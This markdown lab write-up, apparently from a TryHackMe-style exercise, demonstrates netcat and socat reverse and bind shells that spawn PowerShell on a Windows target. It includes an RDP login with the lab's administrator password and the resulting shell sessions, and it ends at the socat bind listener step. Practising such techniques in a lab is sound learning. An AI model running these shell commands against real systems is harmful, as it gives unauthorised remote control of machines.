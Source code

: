 > Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.
#### Create Netcat reverse shell.
1. Start listener on attacker.
```
nc -lvnp 1234
```
2. Create RDP session using supplied administrative credentials.
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.70.179 /u:Administrator /p:'TryH4ckM3!'
```
3. Open command prompt on target and create bind shell.
```
nc 10.10.248.19 1234 -e “powershell.exe”
```
4. Connection established.
```
Connection from 10.10.70.179 50558 received!
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
#### Create Netcat bind shell (using existing RDP session).
1. Open command prompt on target and create listener.
```
nc -lvnp 1234 -e “powershell.exe”
```
2. Create outbound connection from attacker.
```
nc 10.10.70.179 1234
```
3. Session is established.
* On target.
```
connect to [10.10.70.179] from (UNKNOWN) [10.10.18.162] 50900
```
* On attacker.
```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
#### Create a socal reverse shell (using existing RDP session).
1. Start listener in attacker.
```
socat TCP-L:1234 -
```
2. Open command prompt on target and create connection back to listener.
```
socat TCP:10.10.18.162:1234 EXEC:powershell.exe,pipes
```
3. Session established.
```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
#### Create a socat bind shell (using existing RDP session).
1. Create listener at command prompt of target.
```
socat TCP-L:1234 EXEC:powershell.exe,pipes
```